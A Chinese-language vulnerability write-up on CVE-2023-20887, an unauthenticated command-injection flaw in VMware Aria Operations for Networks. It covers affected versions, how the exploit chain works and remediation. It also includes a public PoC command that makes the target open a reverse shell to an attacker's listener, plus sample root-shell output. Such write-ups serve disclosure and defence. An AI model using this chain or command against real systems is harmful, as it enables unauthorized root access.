

（CVE-2023-20887）VMware Aria Operations for Networks未授权命令注入RCE漏洞
===============================================================

一、漏洞简介
------------

2023年6月7日随 VMSA-2023-0012 披露，由 Summoning Team 的 Sina
Kheirkhah (@SinSinology) 通过 ZDI 报告，同周公开 PoC；2023年6月22日
被 CISA 列入 KEV 目录（在野利用）。漏洞是两段问题串成的利用链：其
一，管理接口上的 Apache Thrift RPC 端点（9090 端口）可经反向代理绕过
实现未授权访问；其二，`createSupportBundle` 等 Thrift 接口把用户输入
拼入 `bash -c` 执行，造成命令注入。单个未授权 POST 请求即可拿到
root。CVSS 3.1 **9.8**。

二、漏洞影响
------------

-   产品：VMware Aria Operations for Networks（原 vRealize Network
    Insight / vRNI）
-   版本：**6.2–6.10**（修复版以 VMSA-2023-0012 为准）
-   组件/攻击向量：Thrift RPC（9090 端口）+ 反向代理绕过，命令注入，
    未授权 root RCE
-   前提条件：能访问管理接口；无需任何凭证

三、复现过程
------------

### 漏洞分析

（基于 Summoning Team 技术分析原文）第一跳：Thrift RPC 服务监听在
9090 端口，正常情况下反向代理会拦截外部直接访问，但通过特定手法可
绕过代理把请求打到 Thrift 端点；第二跳：构造 Thrift RPC 请求调用
`createSupportBundle` 过程（参数含 customerId、nodeId、requestId
等），其中用户可控参数被拼进 `bash -c` 执行，注入 shell 元字符即可
以 root 执行任意命令。

### PoC（来源：https://github.com/sinsinology/CVE-2023-20887，漏洞发现者本人发布，仅限授权测试）

```bash
python CVE-2023-20887.py --url https://192.168.116.100 --attacker 192.168.116.1:1337
```

执行后目标回连攻击者监听端口，README 给出的成功示例：

```
(*) Starting handler
(+) Received connection from 192.168.116.100
(+) pop thy shell! (it's ready)
sudo bash
id
uid=0(root) gid=0(root) groups=0(root)
```



*上图：PoC 仓库中的利用演示动图（来源：sinsinology 仓库，已本地化
保存）。*

四、修复建议
------------

1.  按 VMSA-2023-0012 升级到修复版本；
2.  限制管理接口仅可信网络可达；
3.  KEV 在野利用：排查异常的 Thrift/9090 访问记录与计划任务，确认是
    否已被入侵。

### 附录

参考链接：

-   公开 PoC：https://github.com/sinsinology/CVE-2023-20887
-   Summoning Team 技术分析：https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-20887/
-   VMSA-2023-0012：https://www.vmware.com/security/advisories/VMSA-2023-0012.html
-   NVD：https://nvd.nist.gov/vuln/detail/CVE-2023-20887
